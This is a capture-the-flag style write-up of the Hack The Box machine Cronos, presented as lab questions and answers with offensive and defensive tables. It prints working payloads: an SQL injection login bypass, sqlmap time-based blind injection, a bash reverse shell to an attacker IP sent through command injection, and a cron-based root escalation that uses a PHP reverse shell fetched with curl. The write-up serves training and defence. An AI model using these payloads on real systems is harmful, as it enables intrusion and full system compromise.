

# Cronos


# Context

Lab link: [https://app.hackthebox.com/machines/Cronos](https://app.hackthebox.com/machines/Cronos)

Suggested tools: `nmap`, `ffuf`, `curl`, `sqlmap`, `hash-identifier`, `john`, `nc`, `python3 -m http.server`

Tactics: Reconnaissance → Initial Access → Credential Access → Execution → Discovery → Privilege Escalation

# Scenario

CronOS focuses mainly on different vectors for enumeration and also emphasizes the risks associated with adding world-writable files to the root crontab. This machine also includes an introductory-level SQL injection vulnerability.

# Questions

Q1- How many TCP ports are listening on Cronos?

Answer: 3

Reason: A full TCP port scan of `cronos.htb` identified three listening services: `ssh` on `22/tcp`, `domain` (DNS) on `53/tcp`, and `http` on `80/tcp`. The presence of DNS alongside a web server suggests the host may route via internal subdomains, making vhost/subdomain enumeration a priority before attacking the web app directly.

```bash
$ nmap -sC -sV -p- cronos.htb -v -oN nmap.txt
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-19 10:08 -0500
NSE: Loaded 158 scripts for scanning.
[...]
Scanning cronos.htb (10.129.227.211) [65535 ports]
Discovered open port 22/tcp on 10.129.227.211
Discovered open port 53/tcp on 10.129.227.211
Discovered open port 80/tcp on 10.129.227.211

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-title: Cronos
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Q2- What subdomain of `cronos.htb` is serving a login page over HTTP?

Answer: `admin.cronos.htb`

Reason: Vhost fuzzing against `cronos.htb` by varying the `Host` header (with the default-page baseline size of `11439` bytes filtered out) revealed two virtual hosts: `www.cronos.htb` and `admin.cronos.htb`. The latter returns a distinctly smaller response (`1547` bytes), consistent with a login page, making it the target for further enumeration.

```bash
$ curl -s -H "Host: thisisnotreal.cronos.htb" http://10.129.227.211 | wc -c
11439
                                                                                                                                   
$ ffuf -u http://cronos.htb -H "Host: FUZZ.cronos.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fs 11439
       v2.3.0
________________________________________________

 :: Method           : GET
 :: URL              : http://cronos.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.cronos.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 11439
________________________________________________

www                     [Status: 200, Size: 2319, Words: 990, Lines: 86, Duration: 57ms]
admin                   [Status: 200, Size: 1547, Words: 525, Lines: 57, Duration: 4212ms]
:: Progress: [5000/5000] :: Job [1/1] :: 1081 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
```

## Unrestricted AXFR Zone Transfer

DNS zone transfer (AXFR) is the legitimate way a secondary nameserver syncs its full copy of a domain's records from the primary. It's supposed to be restricted to a known list of secondary servers. When that restriction is missing, anyone who asks gets the entire zone file back in one unauthenticated query — a complete record inventory, including subdomains never advertised anywhere else.

**Offensive**

| Section | Detail |
| --- | --- |
| Objective | Enumerate the complete authoritative DNS record set for a domain — including subdomains invisible to normal wordlist/brute-force enumeration — in a single unauthenticated query |
| Recon & Setup | Standard `nslookup`/initial DNS probe identifies the domain and its authoritative nameserver; add the domain to `/etc/hosts` to resolve it locally |
| Exploitation Chain | `dig axfr @<nameserver-ip> <domain>` — if the nameserver answers AXFR requests from arbitrary clients (no allow-list restricting it to known secondaries), it returns the full zone: SOA, NS, A records for every host it knows about, in one response |
| Key Pivot/Insight | The disclosed records aren't guessed or brute-forced — they're authoritative, meaning any subdomain surfaced this way (e.g. an `admin.` panel) is guaranteed real and live, unlike wordlist-based subdomain discovery which only finds what's in the wordlist and can't confirm existence without a separate resolution check |
| Root Cause | Nameserver configuration allows AXFR from any requester instead of restricting it to an explicit secondary-server allow-list — a server operator default/oversight, not a protocol flaw (AXFR itself is intended, legitimate functionality) |
| Offensive Tooling & Payloads | `dig axfr @<ip> <domain>` (no special tooling required — built into standard DNS utilities) |

**Defensive**

| Section | Detail |
| --- | --- |
| Mechanism | Nameserver has no access control on AXFR requests, so any client — not just configured secondaries — receives a full zone transfer |
| Why It Evades Detection | A single, protocol-legitimate query; looks identical to a real secondary syncing its zone unless the source IP is cross-checked against the known-secondary list |
| Detection Method | Restrict AXFR to an explicit allow-list of secondary nameserver IPs (`allow-transfer` in BIND); log and alert on AXFR requests from IPs outside that list; periodically self-test with `dig axfr @<nameserver> <domain>` from an unlisted host to confirm the restriction actually holds |
| Critical Keywords | `axfr`, `allow-transfer`, zone transfer |
| Significance | One unauthenticated query can hand an attacker the full internal subdomain map, directly seeding further attack surface (in this engagement, straight into the SQLi chain via the disclosed `admin.` host) |

Q3- What is the heading at the top of the webpage once authenticated?

Answer: `Net Tool v0.1`

Reason: Authenticating via the SQLi bypass payload `username=admin'-- -` returned a `302` redirect to `welcome.php`, which serves a page titled and headed `Net Tool v0.1`. The page contains a form that executes `traceroute` or `ping` against a user-supplied `host` field, strongly suggesting the input is passed to a shell command on the backend.

```bash
$ curl -s -i -X POST http://admin.cronos.htb/ -d "username=admin%27--%20-&password=test" -c cookies.txt -L
HTTP/1.1 302 Found
Date: Thu, 19 Nov 2026 18:50:53 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: PHPSESSID=blm1a9cg1pib4r2fs4ra3smui7; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
location: welcome.php
Content-Length: 1547
Content-Type: text/html; charset=UTF-8

HTTP/1.1 200 OK
Date: Thu, 19 Nov 2026 18:50:53 GMT
Server: Apache/2.4.18 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 439
Content-Type: text/html; charset=UTF-8

<html">
   
   <head>
      <title>Net Tool v0.1 </title>
   </head>
   
   <body>
        <h1>Net Tool v0.1</h1>
        <form method="POST" action="">
        <select name="command">
                <option value="traceroute">traceroute</option>
                <option value="ping -c 1">ping</option>
        </select>
        <input type="text" name="host" value="8.8.8.8"/>
        <input type="submit" value="Execute!"/>
        </form>
              <p><a href = "logout.php">Sign Out</a></p>
   </body>
   
</html>
```

## Authentication Bypass via SQL Comment Injection

The login check normally runs two tests — "does this username exist?" and "does the password match?" This payload doesn't try to guess a password at all; it exploits how SQL comments work to make the database silently skip the password check entirely, so any password value gets accepted for a known username.

**Offensive**

| Section | Detail |
| --- | --- |
| Objective | Bypass authentication outright — log in as a known/guessed user with no valid password, by manipulating query *logic*, not extracting data |
| Recon & Setup | Standard login form POSTing `username`/`password`; targeted `admin` as a likely valid username |
| Exploitation Chain | Payload: `admin'-- -` in the username field, arbitrary value in password. Backend query `SELECT * FROM users WHERE username='<input>' AND password='<input>'` becomes, after substitution, `SELECT * FROM users WHERE username='admin'-- -' AND password='test'` — `--` opens a SQL line comment, dropping everything after it (the stray closing quote and the entire password clause); the query actually executed is just `SELECT * FROM users WHERE username='admin'`, returning the admin row unconditionally |
| Key Pivot/Insight | The trailing space in `-- -` isn't cosmetic — MySQL requires whitespace after `--` for it to be parsed as a valid comment start; a bare `--` with no following space/character can fail silently depending on dialect, which is why the payload is `-%20-` and not just `--` |
| Root Cause | Unescaped/unparameterized input concatenated directly into a SQL string — same base flaw as the sibling entries, but here the attacker reshapes the query's control structure (truncating a WHERE clause) rather than exploiting an output channel |
| Offensive Tooling & Payloads | Manual curl POST, `username=admin%27--%20-&password=test` |

**Defensive**

| Section | Detail |
| --- | --- |
| Mechanism | User-supplied string terminates the intended quoted literal early, then a SQL comment marker swallows the rest of the query — any clause after the comment (like a password check) never executes |
| Why It Evades Detection | No errors, no timing anomaly, no unusual response size — looks exactly like a normal successful login from the server's perspective; only the *input* itself is the tell, and only if someone's looking for it |
| Detection Method | Reject/flag login-field input containing `--`, `#`, `/*`, or a bare `'` outside of expected character sets; WAF rule on SQL comment sequences in auth endpoints specifically; log and alert on successful logins where the username field contains SQL metacharacters |
| Critical Keywords | `'`, `--`, `#`, `/*`, `admin'--` |
| Significance | Proves parameterization gaps on auth endpoints are worse than on data-display endpoints — this isn't leaking data, it's handing out a session outright with zero credential knowledge required |

## Time Based Blind SQL Injection via Sleep

Normally a vulnerable app either shows you data back (error-based) or shows a visible difference in the page (boolean-based) when your injected condition is true vs. false. Here, neither happens — every response looks identical. So instead of reading an answer, you force the database to take longer to respond when your guess is right, and time how long the reply takes. That delay *is* the answer.

**Offensive**

| Section | Detail |
| --- | --- |
| Objective | Extract data (DB name, table names, column names, row values) from a backend with zero reflected/visible signal, by using response time itself as the oracle |
| Recon & Setup | Confirmed classic request/response testing showed identical output for true vs. false conditions (same byte count, same content) — ruled out error-based and boolean-based, which is what pointed at blind in the first place |
| Exploitation Chain | sqlmap injects `' AND IF(ASCII(SUBSTRING((SELECT username FROM users LIMIT 1),1,1)) > 77, SLEEP(2), 0) AND '1'='1` — extracts one character at a time via nested binary search: guess an ASCII threshold, if the real character's code is above it the condition is true and `SLEEP(2)` fires (~2.2s response); if false, no delay (~0.2s response); narrow the range based on which happened, repeat ~7 times per character (log2 of the ASCII range) until the exact value is pinned, convert to a letter, move to the next `SUBSTRING(...,2,1)` |
| Key Pivot/Insight | The entire "read" in this attack is a stopwatch, not a parser — sqlmap never looks at response *content* at all for this technique, only elapsed time. That's what separates it from every other SQLi class in this tracker |
| Root Cause | Same as the sibling entries — unescaped/unparameterized user input reaching a SQL string. The *class* of injection (error-based vs. blind/time-based) is entirely a property of what the app does or doesn't show back to the attacker, not of the underlying flaw itself |
| Offensive Tooling & Payloads | `sqlmap` automated extraction (`IF(condition, SLEEP(2), 0)` payload family); confirmed MySQL ≥5.0.12, backend fingerprinted via its own error/behavior signatures; full schema pull (database → table → columns → rows) done entirely through timing, no data ever reflected |

**Defensive**

| Section | Detail |
| --- | --- |
| Mechanism | Attacker-controlled input reaches a SQL query unescaped; the app returns a behaviorally identical response regardless of query outcome, so timing is the only side-channel left for an attacker to abuse |
| Why It Evades Detection | No error messages, no content differences, no anomalous response bodies — nothing a signature-based WAF rule keyed on *output* would catch; the "attack traffic" looks like a normal request that happens to take a couple seconds longer, which is easy to miss in isolation |
| Detection Method | Flag SQL-looking payloads in request parameters containing `SLEEP(`, `BENCHMARK(`, `WAITFOR DELAY`, `pg_sleep(`; separately, baseline normal endpoint response-time distribution and alert on repeated outlier-latency requests from one source hitting the same endpoint/parameter — volume is the tell, since one slow response is noise but hundreds in sequence (one per extracted character) is the signature |
| Critical Keywords | `SLEEP(`, `IF(`, `ASCII(`, `SUBSTRING(`, `BENCHMARK(`, `WAITFOR DELAY`, `pg_sleep(` |
| Significance | Proves blind SQLi is still fully exploitable for complete schema/data extraction even when an app leaks nothing visible — "no errors shown" and "no boolean difference" are not mitigations on their own |

Q4- What user is the website on Cronos running as?

Answer: `www-data`

Reason: Command injection on the `host` parameter of the `Net Tool v0.1` page (reached via SQLi login bypass) allowed execution of `bash -c 'bash -i >& /dev/tcp/10.10.17.7/4444 0>&1'`, catching a reverse shell on a local `nc -lvnp 4444` listener. The resulting session confirmed the web application runs as `www-data` (`uid=33(www-data) gid=33(www-data)`).

```bash
# Sending 0.0.0.0; bash -c 'bash -i >& /dev/tcp/10.10.17.7/4444 0>&1' on the web portal after logging in as admin

$ nc -lvnp 4444                              
listening on [any] 4444 ...
connect to [10.10.17.7] from (UNKNOWN) [10.129.227.211] 57712
bash: cannot set terminal process group (1392): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cronos:/var/www/admin$ pwd
pwd
/var/www/admin
www-data@cronos:/var/www/admin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Q5- Submit the flag located in the `noulis` user's home directory.

Answer: [REDACTED]

Reason: The user flag was retrieved directly from `/home/noulis/user.txt`, accessible via the existing `www-data` reverse shell.

```bash
www-data@cronos:/home/noulis$ cat user.txt
cat user.txt
```

Q6- What is the full path to the file passed to `php` in a cronjob that runs every minute as the root user?

Answer: `/var/www/laravel/artisan`

Reason: Reading `/etc/crontab` revealed a root cronjob firing every minute that executes `php /var/www/laravel/artisan schedule:run`. Since this runs as `root` on a one-minute interval, write access to `/var/www/laravel` or any file it includes would allow arbitrary code execution as root.

```bash
$ cat /etc/crontab 

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
[...]
* * * * *     root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

Q7- Does www-data have write permissions on the `artisan` binary?

Answer: Yes

Reason: The file `/var/www/laravel/artisan` is owned by `www-data:www-data` with mode `755` (`-rwxr-xr-x`), confirming the current shell's user has full write access to the exact file root's cronjob executes every minute.

```bash
$ ls -lah /var/www/laravel/artisan
-rwxr-xr-x 1 www-data www-data 1.7K Apr  9  2017 /var/www/laravel/artisan
```

Q8- Submit the flag located in the root user's home directory.

Answer: [REDACTED]

Reason: A root cronjob executing `php /var/www/laravel/artisan schedule:run` every minute, combined with `www-data`-writable permissions on `artisan`, allowed overwriting the file with a PHP reverse shell payload (`pentestmonkey/php-reverse-shell.php`), hosted via a local Python server and pulled with `curl`. Within a minute, root's cron execution triggered the payload, connecting back to a listener on port `5555` as `uid=0(root)`, confirming full compromise.

```bash
$ pwd
/var/www/laravel
$ curl -o artisan http://10.10.17.7:8000/php-reverse-shell.php

# On Kali at 5555
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
```

# Attack Architecture



# Attack Chain

| Stage | Detail | MITRE |
| --- | --- | --- |
| Reconnaissance | nmap -p- -sC -sV `cronos.htb` identified ssh (22), domain/BIND (53), http/Apache (80) | T1595 |
| Reconnaissance | ffuf vhost fuzzing (Host: FUZZ.`cronos.htb`) against the target IP discovered hidden vhost `admin.cronos.htb` | T1595.004 |
| Initial Access | SQLi authentication bypass on `admin.cronos.htb` login form using username=admin'-- - | T1190 |
| Discovery | Time-based blind SQLi on username param confirmed via sqlmap (MySQL backend), enumerated admin.users table/columns and dumped an MD5 hash (uncracked) | T1595.002 |
| Execution | Command injection via host parameter on "Net Tool v0.1" (welcome.php) page, yielding a reverse shell as www-data | T1059.004 |
| Credential Access | Read `/home/noulis/user.txt` directly from www-data shell due to permissive file access | T1552.001 |
| Discovery | `/etc/crontab` revealed a root cronjob every minute executing php `/var/www/laravel/artisan` schedule:run | T1552.001 |
| Privilege Escalation | `/var/www/laravel/artisan` was www-data-writable; overwritten with pentestmonkey/php-reverse-shell.php, executed by root's cron within 60s, yielding a root shell | T1053.003 |
| Exfiltration | Captured root.txt from `/root/` | T1005 |

## Attack Tree

```bash
HTB Cronos (cronos.htb)
│
├── 80 -- Apache vhost fuzzing
│   └── discovered admin.cronos.htb login page
│       └── SQLi auth bypass (username=admin'-- -)
│           └── authenticated as admin -> Net Tool v0.1 (welcome.php)
│               └── command injection on `host` param (; id)
│                   └── reverse shell as www-data
│                       │
│                       ├── /home/noulis/user.txt
│                       │   └── [USER FLAG]
│                       │
│                       └── /etc/crontab -- root cron every minute
│                           └── php /var/www/laravel/artisan schedule:run
│                               └── artisan writable by www-data
│                                   └── overwrite with php-reverse-shell.php
│                                       └── root cron executes payload
│                                           └── shell as root
│                                               └── /root/root.txt
│                                                   └── [ROOT FLAG]
```

# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Discovery | Target host | `cronos.htb` |
|  | Hidden vhost | `admin.cronos.htb` |
| Delivery | Vector | SQLi login bypass payload |
|  | Payload | `admin'-- -` |
| Credential Access | DB | `admin.users` |
|  | Username | `admin` |
|  | Password hash (MD5, uncracked) | `4f5fffa7b2340178a716e3832451e058` |
| Discovery | Injectable endpoint | `admin.cronos.htb` login form, username param |
|  | Vulnerable page | `welcome.php` ("Net Tool v0.1") |
|  | Vulnerable param | `host` |
| Execution | Command injection payload | `0.0.0.0; bash -c 'bash -i >& /dev/tcp/10.10.17.7/4444 0>&1'` |
| Privilege Escalation | Cron job | php `/var/www/laravel/artisan` schedule:run (root, every minute) |
|  | Writable file | `/var/www/laravel/artisan` |
|  | Payload used | `pentestmonkey/php-reverse-shell.php` |
| Flags | User flag | `/home/noulis/user.txt` |
|  | Root flag | `/root/root.txt` |

# Lab Insights

1. A login form's lack of visible query feedback does not mean it is immune to SQL injection — it only means the attacker must shift from direct data leakage to an inferential side channel. On `cronos.htb`, the `admin.cronos.htb` login form returned byte-identical responses for true and false conditions even with the exact real schema known, proving the application code itself never surfaces query results; the attacker instead used `time-based blind SQLi` (forcing `SLEEP()` on a true condition) to both enumerate the database and, more directly, bypass authentication entirely with `admin'-- -` (T1190).
2. Any user-controlled input passed into a system shell command is a command injection risk regardless of how trivial the feature appears. The "Net Tool v0.1" panel's `ping`/`traceroute` utility concatenated the `host` field unsanitized into a shell call, letting a single semicolon-separated payload achieve full code execution as `www-data` (T1059.004).
3. A world-writable (or writable-by-a-low-privilege-service-account) file referenced by a privileged scheduled task is equivalent to handing that low-privilege account root access outright. The root cronjob on Cronos executed `/var/www/laravel/artisan` every minute, and because `www-data` owned write permissions on that exact file, overwriting it with a reverse shell payload guaranteed root-level code execution within sixty seconds, with no further exploitation needed (T1053.003).
